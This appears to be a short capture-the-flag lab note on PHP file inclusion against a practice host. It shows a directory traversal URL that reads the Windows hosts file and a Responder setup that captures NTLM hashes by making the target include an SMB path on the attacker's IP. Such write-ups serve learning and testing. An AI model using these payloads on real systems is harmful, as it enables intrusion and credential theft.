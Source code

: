 ## File Inclusion Web
What is it?

```html
File 1 --> vars.php
<?php
$color = 'green';
$fruit = 'apple';
?>
#############################################
File 2 --> test.php
<?php
 echo "A $color $fruit"; // output = "A"
include 'vars.php';
echo "A $color $fruit"; // output = "A green apple"
?>
```

if there is a path variable try to inject something for example:

```
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```


In the PHP configuration file php.ini , "allow_url_include" wrapper is set to "Off" by default, indicating that
PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if
allow_url_include and allow_url_fopen are set to "Off", PHP will not prevent the loading of SMB URLs.
In our case, we can misuse this functionality to steal the NTLM hash


What can be done if windows server: 

### SMB

```sh
~cat
```
Verify that the Responder.conf is set to listen for SMB requests.

edit resolver conf if necessary
```sh
cat Responder.conf


sudo python3 Responder.py -I tun0
```

With the SMB server running, we can now try to include the file from the server


```sh
http://unika.htb/?page=//<yourIP>/somefile

http://unika.htb/?page=//10.10.15.71/somefile


export PATH=~/bin:$PATH
```